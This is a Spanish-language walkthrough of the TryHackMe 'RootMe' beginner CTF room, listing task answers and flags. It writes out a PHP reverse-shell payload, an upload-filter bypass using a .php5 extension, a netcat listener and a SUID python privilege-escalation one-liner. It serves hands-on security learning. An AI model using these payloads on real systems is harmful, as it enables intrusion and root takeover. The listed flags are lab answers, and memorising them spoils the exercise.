

# RootMe
A ctf for beginners, can you root me?
**Room Link:** https://tryhackme.com/room/rrootme
 

## Task 1 Deploy the machine

Deploy the machine
 > `No answer needed`

## Task 2 Reconnaissance
First, let's get information about the target.

 Scan the machine, how many ports are open?
 > `2`

What version of Apache is running?

 > `2.4.41`

 
What service is running on port 22?

 > `ssh`
 
Find directories on the web server using the GoBuster tool.
 > `No answer needed`

What is the hidden directory?
 >  `/panel/`

 
## Task 3 Getting a shell

Find a form to upload and get a reverse shell, and find the flag.
 
user.txt
 >  `THM{y0u_g0t_a_sh3ll} `

 
 
## Task 4 Privilege escalation

Now that we have a shell, let's escalate our privileges to root.
Answer the questions below
Search for files with SUID permission, which file is weird?
 > `/usr/bin/python`

Find a form to escalate your privileges.
 > `No answer needed`

root.txt
 > `THM{pr1v1l3g3_3sc4l4t10n}`
 
How likely are you to recommend this room to others?


Notas:
### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.234.69/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.234.69/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.234.69/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.234.69/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.234.69/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/panel/` encontraremos que se pueden subir cosas, pero no permite subir `.php` que es lo que queremos, por lo que vamos hacer un `ByPass` con la extension...

> File.php

```shell
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si lo subimos asi no nos dejara, pero cambiamos el `.php` por un `.php5` por lo que ya no lo reconoceria como un `.php` normal quedando algo tal que asi...

> File.php5

Una vez subido el archivo nos descubrio un `/uploads/` por lo que estara ahi el archivo, lo ejecutaremos desde ahi...

Estaremos a la escucha antes de darle al archivo...

```shell
nc -lvnp <PORT>
```

Una vez estando dentro de `www-data` vamos a /www/ donde estara la primera flag...

> user.txt (flag1)

```
THM{y0u_g0t_a_sh3ll}
```

Si hacemos el siguiente comando para ver los permisos `SUID` que tenemos...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Vemos que podemos ejecutar `python` como si fuera `root`...

```
266770   3580 -rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
```

Por lo que haremos lo siguiente...

```shell
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Una vez hecho esto seremos root...

> root.txt (flag2)

```
THM{pr1v1l3g3_3sc4l4t10n}
```


Answers:

1. No answer needed
2. 1. 2
   2. 2.4.41
   3. ssh
   4. No answer needed
   5.
3. THM{y0u_g0t_a_sh3ll}
4. 1. /usr/bin/python
   2. No answer needed
   3. THM{pr1v1l3g3_3sc4l4t10n}


